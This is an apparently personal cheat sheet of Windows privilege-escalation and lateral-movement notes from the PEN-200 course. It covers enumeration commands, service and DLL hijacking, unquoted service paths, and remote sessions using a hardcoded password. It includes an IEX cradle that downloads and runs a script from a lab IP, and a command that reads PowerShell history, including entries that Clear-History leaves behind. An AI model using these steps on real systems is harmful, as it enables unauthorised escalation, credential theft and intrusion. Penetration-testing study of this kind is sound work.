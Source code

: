 # From pen-200 course.  




### Host enumeration

**can be automated with winPEAS.ps1**
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.247/winPEAS.ps1')
```
[winPEAS Github](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

<br>

**Enumeration checklist**

- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes

<br><br><br>
Get all local users:  Get-LocalUser  
<a name="Get-LocalUser">

Get all local groups: Get-LocalGroup   OR net localgroup  
<a name="Get-LocalGroup">

Gather:  
- systeminfo
- ipconfig /a
- route print
- netstat -ano
- Get-Process
**SHOWS THE POWERSHELL  HISTORY**
- Get-History       
- type (Get-PSReadlineOption).HistorySavePath **this shows all history. Even what Clear-history doesnt clear**
- 
  <br><br>

  Get all installed programs X86:
  ``` powershell
  Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  ```

  Get all installed programs X64:
  ```powershell
  Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  ```
<br>
<br>
<br>

### Leveraging Windows Services
<br>

***To get a list of all installed Windows services, we can choose various methods such as the GUI snap-in services.msc, the Get-Service Cmdlet, or the Get-CimInstance Cmdlet (superseding Get-WmiObject)***

<br>
#### Service Binary Hijacking

**get all running services, name,state and pathname**
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

<br>

#### DLL Hijacking 

***make a DLL and put it where the other DLL would load from.  Remember DLL load order***
<img width="845" height="178" alt="image" src="https://github.com/user-attachments/assets/a6b959ab-ae6b-4f8f-86a3-1da2a875e1b5" />
<br><br><br>

#### Unquoted service paths

Script below searches for unquoted service paths using CMD.exe  

``` cmd
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

<br>
### Scheduled tasks

three pieces of information are vital to obtain from a scheduled task to identify possible privilege escalation vectors:

- As which user account (principal) does this task get executed?
- What triggers are specified for the task?
- What actions are executed when one or more of these triggers are met?

***interesting information can be found in the Author, TaskName, Task To Run, Run As User, and Next Run Time fields***

<br><br>
### printer spooler enumeration
Check to see if print spooler is running
ls "\dc01\pipe\spoolss"

<br>
<br>
<br>


### Lateral movement techniques  
<br>
- Lateral movement with Enter-PSSession:
  
``` Powershell
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```
<br>
- Lateral movement with Evil-winrm(apparently enter-pssession isnt too stable)
[Evil-WinRm github](https://github.com/Hackplayers/evil-winrm)

**WinRm is on port 5985**

<img width="835" height="725" alt="image" src="https://github.com/user-attachments/assets/13bc6534-e9d7-49a6-8c61-a06f995ea0cb" />



- 


  

